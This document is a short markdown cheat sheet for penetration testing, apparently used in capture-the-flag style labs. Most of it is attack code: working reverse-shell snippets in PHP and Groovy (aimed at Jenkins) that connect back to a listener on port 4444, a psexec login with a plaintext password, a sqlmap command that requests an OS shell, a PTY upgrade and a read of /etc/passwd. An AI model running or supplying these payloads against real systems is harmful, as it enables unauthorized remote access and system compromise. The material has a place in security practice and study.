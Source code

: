 ### Create reverse shell in different languages

- #### php
    ```php
    <?php
        $sock=fsockopen("10.10.15.211",4444);
        $proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
    ?>
    ```
- #### Groovy (jenkins)
    ```groovy
    String host="10.129.181.48";
    int port=4444;
    String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

- samba
    ```bash
    impacket-psexec 'abcd:!passWord@10.129.32.122'
    ```
- sql injection
    ```bash
    sqlmap -u http://10.129.207.176/dashboard.php\?search\= --cookie="PHPSESSID=vkrvi768lbi9l638e7n8ovv03e" --os-shell
    ```

- More
  - https://www.revshells.com/
### Post reverse shell
- #### Setup stable shell interface
    ```bash
    alias ls='ls --color=always -lAh'
    python3 -c "import pty;pty.spawn('/bin/bash')"
    ```

- #### Check list
    ```bash
    cat /etc/passwd
    ```